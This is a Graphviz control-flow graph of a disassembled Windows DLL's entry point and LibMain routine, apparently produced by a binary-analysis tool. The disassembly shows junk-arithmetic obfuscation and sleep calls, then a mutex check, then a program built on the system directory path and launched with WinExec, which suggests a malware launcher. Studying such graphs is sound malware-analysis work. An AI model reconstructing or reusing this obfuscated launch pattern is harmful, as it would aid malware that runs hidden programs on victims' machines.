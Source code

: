 digraph G {
node[shape=rectangle,style=filled,fillcolor=lightsteelblue,color=lightsteelblue]
bgcolor="transparent"
a0x10001190pushl_ebp[label="start\npushl %ebp",fillcolor="orange",color="lightgrey"];
a0x10001191movl_esp_ebp[label="0x10001191\nmovl %esp, %ebp"];
a0x10001193pushl_ebx[label="0x10001193\npushl %ebx"];
a0x10001194pushl_esi[label="0x10001194\npushl %esi"];
a0x10001195pushl_edi[label="0x10001195\npushl %edi"];
a0x10001196cmpl_0x1UINT8_0xcebp_[label="0x10001196\ncmpl $0x1<UINT8>, 0xc(%ebp)"];
a0x1000119ajne_0x100011a1[label="0x1000119a\njne 0x100011a1"];
a0x100011a1call_0x1000185b[label="0x100011a1\ncall 0x1000185b"];
a0x1000185bpushl_eax[label="0x1000185b\npushl %eax"];
a0x1000185cfnstcw_esp_[label="0x1000185c\nfnstcw (%esp)"];
a0x1000185fmovl_esp__eax[label="0x1000185f\nmovl (%esp), %eax"];
a0x10001862orw_0x300UINT16_esp_[label="0x10001862\norw $0x300<UINT16>, (%esp)"];
a0x10001868jmp_0x1000184a[label="0x10001868\njmp 0x1000184a"];
a0x1000184afldcw_esp_[label="0x1000184a\nfldcw (%esp)"];
a0x1000184dpopl_ecx[label="0x1000184d\npopl %ecx"];
a0x1000184emovb_ah_al[label="0x1000184e\nmovb %ah, %al"];
a0x10001850andl_0x3UINT8_eax[label="0x10001850\nandl $0x3<UINT8>, %eax"];
a0x10001853ret[label="0x10001853\nret"];
a0x100011a6pushl_0x10ebp_[label="0x100011a6\npushl 0x10(%ebp)"];
a0x100011a9pushl_0xcebp_[label="0x100011a9\npushl 0xc(%ebp)"];
a0x100011acpushl_0x8ebp_[label="0x100011ac\npushl 0x8(%ebp)"];
a0x100011afmovl_0x10003000_eax[label="0x100011af\nmovl 0x10003000, %eax"];
a0x100011b4call_eax[label="0x100011b4\ncall %eax"];
a0x10001348pushl_ebp[label="_LibMain@12\npushl %ebp"];
a0x10001349movl_esp_ebp[label="0x10001349\nmovl %esp, %ebp"];
a0x1000134bsubl_0x198UINT32_esp[label="0x1000134b\nsubl $0x198<UINT32>, %esp"];
a0x10001351pushl_ebx[label="0x10001351\npushl %ebx"];
a0x10001352pushl_esi[label="0x10001352\npushl %esi"];
a0x10001353pushl_edi[label="0x10001353\npushl %edi"];
a0x10001354movl_0x712c00c9UINT32_ebx[label="0x10001354\nmovl $0x712c00c9<UINT32>, %ebx"];
a0x10001359subl_0x2afcUINT32_ebx[label="0x10001359\nsubl $0x2afc<UINT32>, %ebx"];
a0x1000135fsubl_0x14c9UINT32_ebx[label="0x1000135f\nsubl $0x14c9<UINT32>, %ebx"];
a0x10001365movl_ebx_eax[label="0x10001365\nmovl %ebx, %eax"];
a0x10001367xorl_ebx_eax[label="0x10001367\nxorl %ebx, %eax"];
a0x10001369movl_eax_ebx[label="0x10001369\nmovl %eax, %ebx"];
a0x1000136bsubl_0x1bf3UINT32_ebx[label="0x1000136b\nsubl $0x1bf3<UINT32>, %ebx"];
a0x10001371subl_0x2b91UINT32_ebx[label="0x10001371\nsubl $0x2b91<UINT32>, %ebx"];
a0x10001377movl_ebx_eax[label="0x10001377\nmovl %ebx, %eax"];
a0x10001379subl_ebx_eax[label="0x10001379\nsubl %ebx, %eax"];
a0x1000137bmovl_eax_ebx[label="0x1000137b\nmovl %eax, %ebx"];
a0x1000137dpushl_0xeUINT8[label="0x1000137d\npushl $0xe<UINT8>"];
a0x1000137fcall_0x100018e4[label="0x1000137f\ncall 0x100018e4"];
a0x100018e4jmp__sleep_crtdll_dll[label="0x100018e4\njmp _sleep@crtdll.dll"];
a_sleep_crtdll_dll[label="_sleep@crtdll.dll",fillcolor="lightgrey",color="lightgrey"];
a0x10001384addl_0x7abfUINT32_ebx[label="0x10001384\naddl $0x7abf<UINT32>, %ebx"];
a0x1000138acall_0x10001878[label="0x1000138a\ncall 0x10001878"];
a0x10001878jmp_GetCurrentProcessId_kernel32_dll[label="0x10001878\njmp GetCurrentProcessId@kernel32.dll"];
GetCurrentProcessId_kernel32_dll[label="GetCurrentProcessId@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x1000138fpushl_0xeUINT8[label="0x1000138f\npushl $0xe<UINT8>"];
a0x10001391call_0x100018e4[label="0x10001391\ncall 0x100018e4"];
a0x10001396xorl_0x5a8fUINT32_ebx[label="0x10001396\nxorl $0x5a8f<UINT32>, %ebx"];
a0x1000139cmovl_ebx_eax[label="0x1000139c\nmovl %ebx, %eax"];
a0x1000139esubl_ebx_eax[label="0x1000139e\nsubl %ebx, %eax"];
a0x100013a0movl_eax_ebx[label="0x100013a0\nmovl %eax, %ebx"];
a0x100013a2addl_0x77ffUINT32_ebx[label="0x100013a2\naddl $0x77ff<UINT32>, %ebx"];
a0x100013a8subl_0x2d9dUINT32_ebx[label="0x100013a8\nsubl $0x2d9d<UINT32>, %ebx"];
a0x100013aesubl_0x5e39UINT32_ebx[label="0x100013ae\nsubl $0x5e39<UINT32>, %ebx"];
a0x100013b4movl_ebx_eax[label="0x100013b4\nmovl %ebx, %eax"];
a0x100013b6mull_ebx_eax[label="0x100013b6\nmull %ebx, %eax"];
a0x100013b8movl_eax__280ebp_[label="0x100013b8\nmovl %eax, -280(%ebp)"];
a0x100013bemovl_eax_ebx[label="0x100013be\nmovl %eax, %ebx"];
a0x100013c0pushl_0xaUINT8[label="0x100013c0\npushl $0xa<UINT8>"];
a0x100013c2call_0x100018e4[label="0x100013c2\ncall 0x100018e4"];
a0x100013c7pushl_0x1f4UINT32[label="0x100013c7\npushl $0x1f4<UINT32>"];
a0x100013cccall_0x10001938[label="0x100013cc\ncall 0x10001938"];
a0x10001938jmp_srand_crtdll_dll[label="0x10001938\njmp srand@crtdll.dll"];
srand_crtdll_dll[label="srand@crtdll.dll",fillcolor="lightgrey",color="lightgrey"];
a0x100013d1addl_0x10UINT8_esp[label="0x100013d1\naddl $0x10<UINT8>, %esp"];
a0x100013d4xorl_0x6b74UINT32_ebx[label="0x100013d4\nxorl $0x6b74<UINT32>, %ebx"];
a0x100013damovl_ebx_eax[label="0x100013da\nmovl %ebx, %eax"];
a0x100013dcxorl_ebx_eax[label="0x100013dc\nxorl %ebx, %eax"];
a0x100013demovl_eax_ebx[label="0x100013de\nmovl %eax, %ebx"];
a0x100013e0xorl_0x6150UINT32_ebx[label="0x100013e0\nxorl $0x6150<UINT32>, %ebx"];
a0x100013e6movl_ebx_eax[label="0x100013e6\nmovl %ebx, %eax"];
a0x100013e8subl_ebx_eax[label="0x100013e8\nsubl %ebx, %eax"];
a0x100013eamovl_eax_ebx[label="0x100013ea\nmovl %eax, %ebx"];
a0x100013ecxorl_ebx_eax[label="0x100013ec\nxorl %ebx, %eax"];
a0x100013eemovl_eax_ebx[label="0x100013ee\nmovl %eax, %ebx"];
a0x100013f0movl_0x7825UINT32_eax[label="0x100013f0\nmovl $0x7825<UINT32>, %eax"];
a0x100013f5mull_ebx_eax[label="0x100013f5\nmull %ebx, %eax"];
a0x100013f7movl_eax__284ebp_[label="0x100013f7\nmovl %eax, -284(%ebp)"];
a0x100013fdmovl_eax_ebx[label="0x100013fd\nmovl %eax, %ebx"];
a0x100013ffsubl_ebx_eax[label="0x100013ff\nsubl %ebx, %eax"];
a0x10001401movl_eax_ebx[label="0x10001401\nmovl %eax, %ebx"];
a0x10001403addl_ebx_eax[label="0x10001403\naddl %ebx, %eax"];
a0x10001405movl_eax_ebx[label="0x10001405\nmovl %eax, %ebx"];
a0x10001407xorl_0x22adUINT32_ebx[label="0x10001407\nxorl $0x22ad<UINT32>, %ebx"];
a0x1000140dsubl_0x13edUINT32_ebx[label="0x1000140d\nsubl $0x13ed<UINT32>, %ebx"];
a0x10001413movl_ebx_eax[label="0x10001413\nmovl %ebx, %eax"];
a0x10001415mull_ebx_eax[label="0x10001415\nmull %ebx, %eax"];
a0x10001417movl_eax__288ebp_[label="0x10001417\nmovl %eax, -288(%ebp)"];
a0x1000141dmovl_eax_ebx[label="0x1000141d\nmovl %eax, %ebx"];
a0x1000141fsubl_0x105bUINT32_ebx[label="0x1000141f\nsubl $0x105b<UINT32>, %ebx"];
a0x10001425movl_0x7ecbUINT32_eax[label="0x10001425\nmovl $0x7ecb<UINT32>, %eax"];
a0x1000142amull_ebx_eax[label="0x1000142a\nmull %ebx, %eax"];
a0x1000142cmovl_eax__292ebp_[label="0x1000142c\nmovl %eax, -292(%ebp)"];
a0x10001432movl_eax_ebx[label="0x10001432\nmovl %eax, %ebx"];
a0x10001434mull_ebx_eax[label="0x10001434\nmull %ebx, %eax"];
a0x10001436movl_eax__296ebp_[label="0x10001436\nmovl %eax, -296(%ebp)"];
a0x1000143cmovl_eax_ebx[label="0x1000143c\nmovl %eax, %ebx"];
a0x1000143exorl_ebx_eax[label="0x1000143e\nxorl %ebx, %eax"];
a0x10001440movl_eax_ebx[label="0x10001440\nmovl %eax, %ebx"];
a0x10001442addl_ebx_eax[label="0x10001442\naddl %ebx, %eax"];
a0x10001444movl_eax_ebx[label="0x10001444\nmovl %eax, %ebx"];
a0x10001446subl_0x2691UINT32_ebx[label="0x10001446\nsubl $0x2691<UINT32>, %ebx"];
a0x1000144cmovl_ebx_eax[label="0x1000144c\nmovl %ebx, %eax"];
a0x1000144emull_ebx_eax[label="0x1000144e\nmull %ebx, %eax"];
a0x10001450movl_eax__300ebp_[label="0x10001450\nmovl %eax, -300(%ebp)"];
a0x10001456movl_eax_ebx[label="0x10001456\nmovl %eax, %ebx"];
a0x10001458xorl_ebx_eax[label="0x10001458\nxorl %ebx, %eax"];
a0x1000145amovl_eax_ebx[label="0x1000145a\nmovl %eax, %ebx"];
a0x1000145cpushl_0x100030a2UINT32[label="0x1000145c\npushl $0x100030a2<UINT32>"];
a0x10001461pushl_0x0UINT8[label="0x10001461\npushl $0x0<UINT8>"];
a0x10001463pushl_0x1f0001UINT32[label="0x10001463\npushl $0x1f0001<UINT32>"];
a0x10001468call_0x100018a8[label="0x10001468\ncall 0x100018a8"];
a0x100018a8jmp_OpenMutexA_kernel32_dll[label="0x100018a8\njmp OpenMutexA@kernel32.dll"];
OpenMutexA_kernel32_dll[label="OpenMutexA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x1000146dmovl_eax__276ebp_[label="0x1000146d\nmovl %eax, -276(%ebp)"];
a0x10001473orl_eax_eax[label="0x10001473\norl %eax, %eax"];
a0x10001475je_0x10001568[label="0x10001475\nje 0x10001568"];
a0x10001568movl_ebx_eax[label="0x10001568\nmovl %ebx, %eax"];
a0x1000156asubl_ebx_eax[label="0x1000156a\nsubl %ebx, %eax"];
a0x1000156cmovl_eax_ebx[label="0x1000156c\nmovl %eax, %ebx"];
a0x1000156eaddl_0x518aUINT32_ebx[label="0x1000156e\naddl $0x518a<UINT32>, %ebx"];
a0x10001574subl_0x736dUINT32_ebx[label="0x10001574\nsubl $0x736d<UINT32>, %ebx"];
a0x1000157asubl_0x42cUINT32_ebx[label="0x1000157a\nsubl $0x42c<UINT32>, %ebx"];
a0x10001580movl_0xec4UINT32_eax[label="0x10001580\nmovl $0xec4<UINT32>, %eax"];
a0x10001585mull_ebx_eax[label="0x10001585\nmull %ebx, %eax"];
a0x10001587movl_eax__304ebp_[label="0x10001587\nmovl %eax, -304(%ebp)"];
a0x1000158dmovl_eax_ebx[label="0x1000158d\nmovl %eax, %ebx"];
a0x1000158faddl_ebx_eax[label="0x1000158f\naddl %ebx, %eax"];
a0x10001591movl_eax_ebx[label="0x10001591\nmovl %eax, %ebx"];
a0x10001593movl_0x4385UINT32_eax[label="0x10001593\nmovl $0x4385<UINT32>, %eax"];
a0x10001598mull_ebx_eax[label="0x10001598\nmull %ebx, %eax"];
a0x1000159amovl_eax__308ebp_[label="0x1000159a\nmovl %eax, -308(%ebp)"];
a0x100015a0movl_eax_ebx[label="0x100015a0\nmovl %eax, %ebx"];
a0x100015a2xorl_ebx_eax[label="0x100015a2\nxorl %ebx, %eax"];
a0x100015a4movl_eax_ebx[label="0x100015a4\nmovl %eax, %ebx"];
a0x100015a6addl_ebx_eax[label="0x100015a6\naddl %ebx, %eax"];
a0x100015a8movl_eax_ebx[label="0x100015a8\nmovl %eax, %ebx"];
a0x100015aamovl_0x6bbfUINT32_eax[label="0x100015aa\nmovl $0x6bbf<UINT32>, %eax"];
a0x100015afmull_ebx_eax[label="0x100015af\nmull %ebx, %eax"];
a0x100015b1movl_eax__312ebp_[label="0x100015b1\nmovl %eax, -312(%ebp)"];
a0x100015b7movl_eax_ebx[label="0x100015b7\nmovl %eax, %ebx"];
a0x100015b9movl_0x6280UINT32_eax[label="0x100015b9\nmovl $0x6280<UINT32>, %eax"];
a0x100015bemull_ebx_eax[label="0x100015be\nmull %ebx, %eax"];
a0x100015c0movl_eax__316ebp_[label="0x100015c0\nmovl %eax, -316(%ebp)"];
a0x100015c6movl_eax_ebx[label="0x100015c6\nmovl %eax, %ebx"];
a0x100015c8mull_ebx_eax[label="0x100015c8\nmull %ebx, %eax"];
a0x100015camovl_eax__320ebp_[label="0x100015ca\nmovl %eax, -320(%ebp)"];
a0x100015d0movl_eax_ebx[label="0x100015d0\nmovl %eax, %ebx"];
a0x100015d2addl_0x6f8eUINT32_ebx[label="0x100015d2\naddl $0x6f8e<UINT32>, %ebx"];
a0x100015d8xorl_0xe95UINT32_ebx[label="0x100015d8\nxorl $0xe95<UINT32>, %ebx"];
a0x100015deaddl_0x6186UINT32_ebx[label="0x100015de\naddl $0x6186<UINT32>, %ebx"];
a0x100015e4leal__271ebp__edi[label="0x100015e4\nleal -271(%ebp), %edi"];
a0x100015ealeal_0x10003090_esi[label="0x100015ea\nleal 0x10003090, %esi"];
a0x100015f0movl_0x4UINT32_ecx[label="0x100015f0\nmovl $0x4<UINT32>, %ecx"];
a0x100015f5repz_movsl_ds_esi__es_edi_[label="0x100015f5\nrepz movsl %ds:(%esi), %es:(%edi)"];
a0x100015f7movl_ebx_eax[label="0x100015f7\nmovl %ebx, %eax"];
a0x100015f9mull_ebx_eax[label="0x100015f9\nmull %ebx, %eax"];
a0x100015fbmovl_eax__324ebp_[label="0x100015fb\nmovl %eax, -324(%ebp)"];
a0x10001601movl_eax_ebx[label="0x10001601\nmovl %eax, %ebx"];
a0x10001603subl_ebx_eax[label="0x10001603\nsubl %ebx, %eax"];
a0x10001605movl_eax_ebx[label="0x10001605\nmovl %eax, %ebx"];
a0x10001607subl_0x6eabUINT32_ebx[label="0x10001607\nsubl $0x6eab<UINT32>, %ebx"];
a0x1000160daddl_0x7559UINT32_ebx[label="0x1000160d\naddl $0x7559<UINT32>, %ebx"];
a0x10001613movl_ebx_eax[label="0x10001613\nmovl %ebx, %eax"];
a0x10001615mull_ebx_eax[label="0x10001615\nmull %ebx, %eax"];
a0x10001617movl_eax__328ebp_[label="0x10001617\nmovl %eax, -328(%ebp)"];
a0x1000161dmovl_eax_ebx[label="0x1000161d\nmovl %eax, %ebx"];
a0x1000161fmovl_0x34a2UINT32_eax[label="0x1000161f\nmovl $0x34a2<UINT32>, %eax"];
a0x10001624mull_ebx_eax[label="0x10001624\nmull %ebx, %eax"];
a0x10001626movl_eax__332ebp_[label="0x10001626\nmovl %eax, -332(%ebp)"];
a0x1000162cmovl_eax_ebx[label="0x1000162c\nmovl %eax, %ebx"];
a0x1000162exorl_0x6602UINT32_ebx[label="0x1000162e\nxorl $0x6602<UINT32>, %ebx"];
a0x10001634movl_ebx_eax[label="0x10001634\nmovl %ebx, %eax"];
a0x10001636mull_ebx_eax[label="0x10001636\nmull %ebx, %eax"];
a0x10001638movl_eax__336ebp_[label="0x10001638\nmovl %eax, -336(%ebp)"];
a0x1000163emovl_eax_ebx[label="0x1000163e\nmovl %eax, %ebx"];
a0x10001640mull_ebx_eax[label="0x10001640\nmull %ebx, %eax"];
a0x10001642movl_eax__340ebp_[label="0x10001642\nmovl %eax, -340(%ebp)"];
a0x10001648movl_eax_ebx[label="0x10001648\nmovl %eax, %ebx"];
a0x1000164amull_ebx_eax[label="0x1000164a\nmull %ebx, %eax"];
a0x1000164cmovl_eax__344ebp_[label="0x1000164c\nmovl %eax, -344(%ebp)"];
a0x10001652movl_eax_ebx[label="0x10001652\nmovl %eax, %ebx"];
a0x10001654xorl_ebx_eax[label="0x10001654\nxorl %ebx, %eax"];
a0x10001656movl_eax_ebx[label="0x10001656\nmovl %eax, %ebx"];
a0x10001658addl_ebx_eax[label="0x10001658\naddl %ebx, %eax"];
a0x1000165amovl_eax_ebx[label="0x1000165a\nmovl %eax, %ebx"];
a0x1000165cmull_ebx_eax[label="0x1000165c\nmull %ebx, %eax"];
a0x1000165emovl_eax__348ebp_[label="0x1000165e\nmovl %eax, -348(%ebp)"];
a0x10001664movl_eax_ebx[label="0x10001664\nmovl %eax, %ebx"];
a0x10001666mull_ebx_eax[label="0x10001666\nmull %ebx, %eax"];
a0x10001668movl_eax__352ebp_[label="0x10001668\nmovl %eax, -352(%ebp)"];
a0x1000166emovl_eax_ebx[label="0x1000166e\nmovl %eax, %ebx"];
a0x10001670addl_ebx_eax[label="0x10001670\naddl %ebx, %eax"];
a0x10001672movl_eax_ebx[label="0x10001672\nmovl %eax, %ebx"];
a0x10001674pushl_0xffUINT32[label="0x10001674\npushl $0xff<UINT32>"];
a0x10001679leal__255ebp__eax[label="0x10001679\nleal -255(%ebp), %eax"];
a0x1000167fpushl_eax[label="0x1000167f\npushl %eax"];
a0x10001680call_0x1000189c[label="0x10001680\ncall 0x1000189c"];
a0x1000189cjmp_GetSystemDirectoryA_kernel32_dll[label="0x1000189c\njmp GetSystemDirectoryA@kernel32.dll"];
GetSystemDirectoryA_kernel32_dll[label="GetSystemDirectoryA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x10001685movl_ebx_eax[label="0x10001685\nmovl %ebx, %eax"];
a0x10001687mull_ebx_eax[label="0x10001687\nmull %ebx, %eax"];
a0x10001689movl_eax__356ebp_[label="0x10001689\nmovl %eax, -356(%ebp)"];
a0x1000168fmovl_eax_ebx[label="0x1000168f\nmovl %eax, %ebx"];
a0x10001691addl_ebx_eax[label="0x10001691\naddl %ebx, %eax"];
a0x10001693movl_eax_ebx[label="0x10001693\nmovl %eax, %ebx"];
a0x10001695mull_ebx_eax[label="0x10001695\nmull %ebx, %eax"];
a0x10001697movl_eax__360ebp_[label="0x10001697\nmovl %eax, -360(%ebp)"];
a0x1000169dmovl_eax_ebx[label="0x1000169d\nmovl %eax, %ebx"];
a0x1000169fsubl_ebx_eax[label="0x1000169f\nsubl %ebx, %eax"];
a0x100016a1movl_eax_ebx[label="0x100016a1\nmovl %eax, %ebx"];
a0x100016a3xorl_0x4b37UINT32_ebx[label="0x100016a3\nxorl $0x4b37<UINT32>, %ebx"];
a0x100016a9xorl_0x6ac4UINT32_ebx[label="0x100016a9\nxorl $0x6ac4<UINT32>, %ebx"];
a0x100016afmovl_ebx_eax[label="0x100016af\nmovl %ebx, %eax"];
a0x100016b1subl_ebx_eax[label="0x100016b1\nsubl %ebx, %eax"];
a0x100016b3movl_eax_ebx[label="0x100016b3\nmovl %eax, %ebx"];
a0x100016b5addl_ebx_eax[label="0x100016b5\naddl %ebx, %eax"];
a0x100016b7movl_eax_ebx[label="0x100016b7\nmovl %eax, %ebx"];
a0x100016b9mull_ebx_eax[label="0x100016b9\nmull %ebx, %eax"];
a0x100016bbmovl_eax__364ebp_[label="0x100016bb\nmovl %eax, -364(%ebp)"];
a0x100016c1movl_eax_ebx[label="0x100016c1\nmovl %eax, %ebx"];
a0x100016c3subl_0x7527UINT32_ebx[label="0x100016c3\nsubl $0x7527<UINT32>, %ebx"];
a0x100016c9movl_ebx_eax[label="0x100016c9\nmovl %ebx, %eax"];
a0x100016cbsubl_ebx_eax[label="0x100016cb\nsubl %ebx, %eax"];
a0x100016cdmovl_eax_ebx[label="0x100016cd\nmovl %eax, %ebx"];
a0x100016cfaddl_ebx_eax[label="0x100016cf\naddl %ebx, %eax"];
a0x100016d1movl_eax_ebx[label="0x100016d1\nmovl %eax, %ebx"];
a0x100016d3mull_ebx_eax[label="0x100016d3\nmull %ebx, %eax"];
a0x100016d5movl_eax__368ebp_[label="0x100016d5\nmovl %eax, -368(%ebp)"];
a0x100016dbmovl_eax_ebx[label="0x100016db\nmovl %eax, %ebx"];
a0x100016ddsubl_ebx_eax[label="0x100016dd\nsubl %ebx, %eax"];
a0x100016dfmovl_eax_ebx[label="0x100016df\nmovl %eax, %ebx"];
a0x100016e1movl_0x7b29UINT32_eax[label="0x100016e1\nmovl $0x7b29<UINT32>, %eax"];
a0x100016e6mull_ebx_eax[label="0x100016e6\nmull %ebx, %eax"];
a0x100016e8movl_eax__372ebp_[label="0x100016e8\nmovl %eax, -372(%ebp)"];
a0x100016eemovl_eax_ebx[label="0x100016ee\nmovl %eax, %ebx"];
a0x100016f0addl_ebx_eax[label="0x100016f0\naddl %ebx, %eax"];
a0x100016f2movl_eax_ebx[label="0x100016f2\nmovl %eax, %ebx"];
a0x100016f4xorl_0x3cd6UINT32_ebx[label="0x100016f4\nxorl $0x3cd6<UINT32>, %ebx"];
a0x100016fasubl_0x6136UINT32_ebx[label="0x100016fa\nsubl $0x6136<UINT32>, %ebx"];
a0x10001700subl_0x3dabUINT32_ebx[label="0x10001700\nsubl $0x3dab<UINT32>, %ebx"];
a0x10001706pushl_0x100030a0UINT32[label="0x10001706\npushl $0x100030a0<UINT32>"];
a0x1000170bleal__255ebp__eax[label="0x1000170b\nleal -255(%ebp), %eax"];
a0x10001711pushl_eax[label="0x10001711\npushl %eax"];
a0x10001712call_0x10001944[label="0x10001712\ncall 0x10001944"];
a0x10001944jmp_strcat_crtdll_dll[label="0x10001944\njmp strcat@crtdll.dll"];
strcat_crtdll_dll[label="strcat@crtdll.dll",fillcolor="lightgrey",color="lightgrey"];
a0x10001717subl_0x3ebaUINT32_ebx[label="0x10001717\nsubl $0x3eba<UINT32>, %ebx"];
a0x1000171dmovl_ebx_eax[label="0x1000171d\nmovl %ebx, %eax"];
a0x1000171fxorl_ebx_eax[label="0x1000171f\nxorl %ebx, %eax"];
a0x10001721movl_eax_ebx[label="0x10001721\nmovl %eax, %ebx"];
a0x10001723movl_0x41dbUINT32_eax[label="0x10001723\nmovl $0x41db<UINT32>, %eax"];
a0x10001728mull_ebx_eax[label="0x10001728\nmull %ebx, %eax"];
a0x1000172amovl_eax__376ebp_[label="0x1000172a\nmovl %eax, -376(%ebp)"];
a0x10001730movl_eax_ebx[label="0x10001730\nmovl %eax, %ebx"];
a0x10001732leal__271ebp__eax[label="0x10001732\nleal -271(%ebp), %eax"];
a0x10001738pushl_eax[label="0x10001738\npushl %eax"];
a0x10001739leal__255ebp__eax[label="0x10001739\nleal -255(%ebp), %eax"];
a0x1000173fpushl_eax[label="0x1000173f\npushl %eax"];
a0x10001740call_0x10001944[label="0x10001740\ncall 0x10001944"];
a0x10001745addl_0x10UINT8_esp[label="0x10001745\naddl $0x10<UINT8>, %esp"];
a0x10001748subl_0x63fdUINT32_ebx[label="0x10001748\nsubl $0x63fd<UINT32>, %ebx"];
a0x1000174exorl_0x392dUINT32_ebx[label="0x1000174e\nxorl $0x392d<UINT32>, %ebx"];
a0x10001754movl_ebx_eax[label="0x10001754\nmovl %ebx, %eax"];
a0x10001756subl_ebx_eax[label="0x10001756\nsubl %ebx, %eax"];
a0x10001758movl_eax_ebx[label="0x10001758\nmovl %eax, %ebx"];
a0x1000175amovl_0x5db8UINT32_eax[label="0x1000175a\nmovl $0x5db8<UINT32>, %eax"];
a0x1000175fmull_ebx_eax[label="0x1000175f\nmull %ebx, %eax"];
a0x10001761movl_eax__380ebp_[label="0x10001761\nmovl %eax, -380(%ebp)"];
a0x10001767movl_eax_ebx[label="0x10001767\nmovl %eax, %ebx"];
a0x10001769addl_ebx_eax[label="0x10001769\naddl %ebx, %eax"];
a0x1000176bmovl_eax_ebx[label="0x1000176b\nmovl %eax, %ebx"];
a0x1000176dsubl_ebx_eax[label="0x1000176d\nsubl %ebx, %eax"];
a0x1000176fmovl_eax_ebx[label="0x1000176f\nmovl %eax, %ebx"];
a0x10001771subl_ebx_eax[label="0x10001771\nsubl %ebx, %eax"];
a0x10001773movl_eax_ebx[label="0x10001773\nmovl %eax, %ebx"];
a0x10001775xorl_0x6203UINT32_ebx[label="0x10001775\nxorl $0x6203<UINT32>, %ebx"];
a0x1000177bmovl_0x10ecUINT32_eax[label="0x1000177b\nmovl $0x10ec<UINT32>, %eax"];
a0x10001780mull_ebx_eax[label="0x10001780\nmull %ebx, %eax"];
a0x10001782movl_eax__384ebp_[label="0x10001782\nmovl %eax, -384(%ebp)"];
a0x10001788movl_eax_ebx[label="0x10001788\nmovl %eax, %ebx"];
a0x1000178axorl_0x4a82UINT32_ebx[label="0x1000178a\nxorl $0x4a82<UINT32>, %ebx"];
a0x10001790movl_ebx_eax[label="0x10001790\nmovl %ebx, %eax"];
a0x10001792addl_ebx_eax[label="0x10001792\naddl %ebx, %eax"];
a0x10001794movl_eax_ebx[label="0x10001794\nmovl %eax, %ebx"];
a0x10001796xorl_0x6324UINT32_ebx[label="0x10001796\nxorl $0x6324<UINT32>, %ebx"];
a0x1000179cmovl_0x3423UINT32_eax[label="0x1000179c\nmovl $0x3423<UINT32>, %eax"];
a0x100017a1mull_ebx_eax[label="0x100017a1\nmull %ebx, %eax"];
a0x100017a3movl_eax__388ebp_[label="0x100017a3\nmovl %eax, -388(%ebp)"];
a0x100017a9movl_eax_ebx[label="0x100017a9\nmovl %eax, %ebx"];
a0x100017abpushl_0x1UINT8[label="0x100017ab\npushl $0x1<UINT8>"];
a0x100017adleal__255ebp__eax[label="0x100017ad\nleal -255(%ebp), %eax"];
a0x100017b3pushl_eax[label="0x100017b3\npushl %eax"];
a0x100017b4call_0x100018c0[label="0x100017b4\ncall 0x100018c0"];
a0x100018c0jmp_WinExec_kernel32_dll[label="0x100018c0\njmp WinExec@kernel32.dll"];
WinExec_kernel32_dll[label="WinExec@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x100017b9addl_0x4a0aUINT32_ebx[label="0x100017b9\naddl $0x4a0a<UINT32>, %ebx"];
a0x100017bfxorl_0x3103UINT32_ebx[label="0x100017bf\nxorl $0x3103<UINT32>, %ebx"];
a0x100017c5movl_ebx_eax[label="0x100017c5\nmovl %ebx, %eax"];
a0x100017c7xorl_ebx_eax[label="0x100017c7\nxorl %ebx, %eax"];
a0x100017c9movl_eax_ebx[label="0x100017c9\nmovl %eax, %ebx"];
a0x100017cbmull_ebx_eax[label="0x100017cb\nmull %ebx, %eax"];
a0x100017cdmovl_eax__392ebp_[label="0x100017cd\nmovl %eax, -392(%ebp)"];
a0x100017d3movl_eax_ebx[label="0x100017d3\nmovl %eax, %ebx"];
a0x100017d5movl_0x6b6fUINT32_eax[label="0x100017d5\nmovl $0x6b6f<UINT32>, %eax"];
a0x100017damull_ebx_eax[label="0x100017da\nmull %ebx, %eax"];
a0x100017dcmovl_eax__396ebp_[label="0x100017dc\nmovl %eax, -396(%ebp)"];
a0x100017e2movl_eax_ebx[label="0x100017e2\nmovl %eax, %ebx"];
a0x100017e4subl_ebx_eax[label="0x100017e4\nsubl %ebx, %eax"];
a0x100017e6movl_eax_ebx[label="0x100017e6\nmovl %eax, %ebx"];
a0x100017e8subl_0x2d07UINT32_ebx[label="0x100017e8\nsubl $0x2d07<UINT32>, %ebx"];
a0x100017eemovl_ebx_eax[label="0x100017ee\nmovl %ebx, %eax"];
a0x100017f0mull_ebx_eax[label="0x100017f0\nmull %ebx, %eax"];
a0x100017f2movl_eax__400ebp_[label="0x100017f2\nmovl %eax, -400(%ebp)"];
a0x100017f8movl_eax_ebx[label="0x100017f8\nmovl %eax, %ebx"];
a0x100017faxorl_0x2e2fUINT32_ebx[label="0x100017fa\nxorl $0x2e2f<UINT32>, %ebx"];
a0x10001800subl_0x1ac2UINT32_ebx[label="0x10001800\nsubl $0x1ac2<UINT32>, %ebx"];
a0x10001806movl_ebx_eax[label="0x10001806\nmovl %ebx, %eax"];
a0x10001808addl_ebx_eax[label="0x10001808\naddl %ebx, %eax"];
a0x1000180amovl_eax_ebx[label="0x1000180a\nmovl %eax, %ebx"];
a0x1000180cmull_ebx_eax[label="0x1000180c\nmull %ebx, %eax"];
a0x1000180emovl_eax__404ebp_[label="0x1000180e\nmovl %eax, -404(%ebp)"];
a0x10001814movl_eax_ebx[label="0x10001814\nmovl %eax, %ebx"];
a0x10001816subl_ebx_eax[label="0x10001816\nsubl %ebx, %eax"];
a0x10001818movl_eax_ebx[label="0x10001818\nmovl %eax, %ebx"];
a0x1000181axorl_eax_eax[label="0x1000181a\nxorl %eax, %eax"];
a0x1000181cincl_eax[label="0x1000181c\nincl %eax"];
a0x1000181djmp_0x1000182e[label="0x1000181d\njmp 0x1000182e"];
a0x1000182epopl_edi[label="0x1000182e\npopl %edi"];
a0x1000182fpopl_esi[label="0x1000182f\npopl %esi"];
a0x10001830popl_ebx[label="0x10001830\npopl %ebx"];
a0x10001831leave_[label="0x10001831\nleave "];
a0x10001832ret_0xcUINT16[label="0x10001832\nret $0xc<UINT16>"];
